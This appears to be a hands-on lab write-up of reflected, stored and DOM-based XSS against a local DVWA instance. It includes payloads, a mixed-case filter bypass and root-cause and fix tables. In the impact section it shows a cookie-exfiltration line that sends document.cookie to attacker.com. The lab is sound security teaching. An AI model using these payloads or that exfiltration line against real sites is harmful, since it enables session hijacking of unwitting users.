






# Cross-Site Scripting (XSS) — DVWA (Low & Medium Security)

**OWASP Category:** A03:2021 – Injection
**Target:** DVWA "XSS (Reflected)", "XSS (Stored)", and "XSS (DOM)" modules
**Security Levels Tested:** Low, Medium (filter bypass)

---

## 1. Overview

XSS happens when an application takes user input and inserts it into a page without properly encoding it first. Browsers can't distinguish "code the developer wrote" from "code that arrived disguised as user input" — so an injected `<script>` tag runs with the same trust as the legitimate page.

This lab covered all three major XSS classes: **Reflected** (payload only lives in the current request), **Stored** (payload persists in the database and fires for every visitor), and **DOM-based** (payload never touches the server at all — pure client-side JavaScript).

---

## 2. Environment

| Component | Details |
|---|---|
| Target | DVWA (Damn Vulnerable Web Application) |
| Deployment | Docker (`vulnerables/web-dvwa`), `localhost:8080` |
| Tools | Browser (manual testing + view-source), DVWA Security level toggle |

---

## 3. Steps to Reproduce

### 3.1 Reflected XSS — Low security


*The "What's your name?" form before any payload is submitted — this is the reflection point being targeted.*

Baseline payload confirming input is echoed unescaped into the HTML:

```html
<script>alert('XSS')</script>
```

Also tested by editing the URL parameter directly, proving the payload could be delivered as a shareable link rather than typed into a form:

```
http://localhost:8080/.../xss_r/?name=<script>alert(document.cookie)</script>
```

### 3.2 Reflected XSS — Medium security (filter bypass)

DVWA's Medium filter does a case-sensitive, exact-string removal of `<script>`. Bypassed with mixed casing, since the filter never matches this exact variant:

```html
<sCriPt>alert('bypassed')</sCriPt>
```


*The mixed-case payload visible in the URL, successfully bypassing DVWA's case-sensitive `<script>` filter at Medium security.*

**Result:** alert fired, confirming the bypass.

### 3.3 Stored XSS — Low security

Injected into the guestbook's Message field:

```html
<script>alert('Stored XSS')</script>
```

Confirmed persistence: refreshing the page with no new submission still triggered the alert, because the payload was now sitting in the database and re-rendered on every load. Then simulated an attacker's actual goal — reading the session cookie:

```html
<script>alert(document.cookie)</script>
```


*The alert firing automatically on page load, with no new submission — proof the payload persisted in the database.*


*The injected payload reading `document.cookie` and displaying the live session cookie — this is the exact value an attacker's script would exfiltrate instead of alerting.*

**Result observed:**
```
PHPSESSID=t6qjf118sufim2q8obm6jh1re7; security=low
```

### 3.4 DOM-Based XSS

The language-selector page reads a URL parameter directly in client-side JavaScript and writes it into the page with no escaping:

```
http://localhost:8080/vulnerabilities/xss_d/?default=<script>alert('DOM XSS')</script>
```


*The alert triggered purely by editing the URL — no data was ever sent to the server, confirming this executed entirely client-side.*

**Result:** alert fired — confirming the payload never touched the server at all; it was processed entirely by JavaScript already running in the browser.

---

## 4. Why It Worked

| Type | Root cause |
|---|---|
| Reflected (Low) | Input reflected into HTML with zero output encoding |
| Reflected (Medium) | Filter blacklists the exact lowercase string `<script>` — doesn't understand HTML/JS structure, so case variation slips through |
| Stored | Same missing output-encoding issue, but the payload is saved to the database instead of only appearing in one response |
| DOM-based | Vulnerable JavaScript (`document.write()` / `innerHTML`-style sink) trusts a URL parameter and writes it straight into the page — the server is never involved, so **no server-side filter can stop it** |


*The actual vulnerable sink, viewed via page source: `document.location.href` is parsed for the `default` parameter and written directly into an `<option>` tag with `document.write()` — no escaping applied.*

**Core lesson:** blacklisting exact strings is a broken defense strategy. It pattern-matches text without understanding HTML/JS structure, so any variation — case, encoding, alternate tags — slips through. Real defenses rely on **output encoding** (escaping `<`, `>`, `&`, `"`, `'` before rendering), not blacklists.

---

## 5. Impact & Fix

**Impact:**
- **Reflected:** requires a victim to click a crafted link (phishing-dependent), but is trivial to deliver at scale.
- **Stored:** far more dangerous — fires automatically for every user who views the infected page, no interaction beyond normal browsing. This is the mechanism behind real-world incidents like the 2005 Samy worm on MySpace, which infected over a million profiles in under 24 hours.
- **DOM-based:** frequently missed by traditional scanners since the payload never appears in server logs or responses.
- The `document.cookie` result shown above demonstrates the realistic next step: an attacker would replace `alert()` with `fetch('http://attacker.com/steal?c='+document.cookie)`, silently exfiltrating the session cookie. With that cookie, they could impersonate the victim without ever knowing their password.

**Fixes:**

| Defense | What it does |
|---|---|
| Output encoding | Convert `<`, `>`, `&`, `"`, `'` to safe equivalents before rendering, so injected tags display as text instead of executing |
| Content Security Policy (CSP) | HTTP header restricting which script sources the browser is allowed to run |
| `HttpOnly` cookie flag | Prevents JavaScript from reading the cookie at all — directly neutralizes the cookie-theft technique shown in 3.3 |
| Input validation | Supplementary check against expected format — never a substitute for output encoding |
| Modern frontend frameworks | React/Vue/Angular auto-escape rendered content by default, which is why DOM XSS is rarer in modern apps unless a developer deliberately bypasses it (e.g. `dangerouslySetInnerHTML`) |

---

## 6. A Repeatable Testing Approach

Rather than memorizing payloads, this lab reinforced a general process applicable to any target:

1. Find where input becomes output (search boxes, comments, URL params, error messages).
2. Submit a harmless unique marker first (e.g. `zzztest123`) and view source to see exactly where and how it lands in the HTML.
3. Try the simplest payload matching that context.
4. If filtered, identify the filter logic (stripped entirely? partially? encoded?) and adapt — case variation, alternate tags, or event-handler-based payloads (``) that don't need the word "script" at all.
5. Move beyond `alert()` only once impact needs to be demonstrated (cookie access, redirection) — and only within an authorized test scope.

---

## 7. Real-World Relevance

XSS is one of the most consistently rewarded vulnerability classes in bug bounty programs, largely because it's common and because it chains easily with other weaknesses (e.g. missing `HttpOnly` cookies, weak CSRF protection) to produce full account takeover.

